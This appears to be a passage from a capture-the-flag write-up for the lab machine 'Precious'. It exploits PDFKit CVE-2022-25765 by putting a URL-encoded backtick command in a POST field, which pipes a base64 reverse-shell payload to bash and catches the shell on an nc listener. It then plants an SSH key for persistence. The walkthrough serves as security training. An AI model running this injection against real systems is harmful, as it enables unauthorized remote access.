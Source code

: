 ## Foothold ([CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765))

[CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765) is a
vulnerability affecting PDFKit versions prior to `0.8.7.2`. Due to improper user
input sanitization, an attacker can craft a special URL to get RCE.

### Preparation

The goal is to exploit this RCE to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's exploit the PDFKit vulnerability to execute our payload.

```sh
❯ curl -s -o "/dev/null" "http://precious.htb/" -X "POST" -d "url=http%3A%2F%2F%2520%60%2Fbin%2Fecho%20$BASE64_REVSHELL_PAYLOAD%20%7C%20%2Fusr%2Fbin%2Fbase64%20-d%20%7C%20%2Fbin%2Fbash%20-i%60"
```

If we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.189] 42088
<SNIP>
ruby@precious:/var/www/pdfapp$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Precious. This way, I'll have a much more
stable shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `ruby`.

### Architecture

What is Precious's architecture?
